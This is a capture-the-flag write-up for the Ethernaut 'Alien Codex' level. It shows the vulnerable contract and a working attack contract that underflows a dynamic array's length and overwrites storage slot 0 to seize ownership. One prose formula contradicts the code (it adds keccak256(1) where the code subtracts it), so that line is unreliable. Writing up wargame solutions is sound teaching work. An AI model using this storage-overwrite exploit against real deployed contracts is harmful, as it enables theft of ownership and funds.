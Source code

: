 ```yaml
---
description: storage layout
---
```


# 19 - Alien Codex

Ethernaut Level19: [Alien Codex](https://ethernaut.openzeppelin.com/level/0x40055E69E7EB12620c8CCBCCAb1F187883301c30)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

### Goal of this level

* claim ownership

### What you should know before

* Artihmetic overflow/underflow
* Storage Layout (dynamic array especially)\
  \-> see [here](https://www.youtube.com/watch?v=Gg6nt3YW74o\&list=PLO5VPQH6OWdWsCgXJT9UuzgbC8SPvTRi5\&index=4)
* Ownable.sol\
  \-> see [here](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

* `owner` is located at slot0. So will `store` player address to slot0\
  (`owner` and `contact` are packed into slot0)
* `codex[i]` is located at `keccak256(1) + i`

</details>

```solidity
contract AttackAlienCodex {
    function attack(address _instance) external {
        // (2**256 - 1) - keccak256(1) + 1
        uint256 slot0Index = uint256(-1) - uint256(keccak256(abi.encode(1))) + uint256(1);
        
        // 00000000000000000000000034B4ab0479D10FdbAA3b52C8371C7B1BE5c73bb7 (player address)
        bytes32 playerAddr = bytes32(uint256(uint160(tx.origin)));
    
        _instance.call(abi.encodeWithSignature("make_contact()"));

        // length of codex will be 2**256 - 1
        _instance.call(abi.encodeWithSignature("retract()"));
        
        _instance.call(abi.encodeWithSignature("revise(uint256,bytes32)", slot0Index, playerAddr));
    }
}
```

We will exploit **arithmetic underflow** here.

Storage has `2**256` slots (slot `0` \~ slot `2**256-1`).

Inital value of `codex.length` is `0`.&#x20;

So when we call `retract()` this will cause arithmetic overflow, making the value of `codex.length` `2**256 - 1`.

Now solidity thinks of codex as an array with `2**256 - 1` elements which lets us access any slot of storage.

`codex[0]` is located at slot `keccak256(1)`.

`codex[i]` is at slot `keccak256(1) + i`, \
so we will find `i` that satisfies `keccak256(1) + i  === 2**256`.

So `i` should be

```solidity
uint256(-1) + uint256(keccak256(abi.encode(1))) + uint256(1)
```

Since uint256 variable cannot store `2**256`, \
we subtract `keccak256(1)` from `2**256 - 1` and add `1` back.

Done! 😎
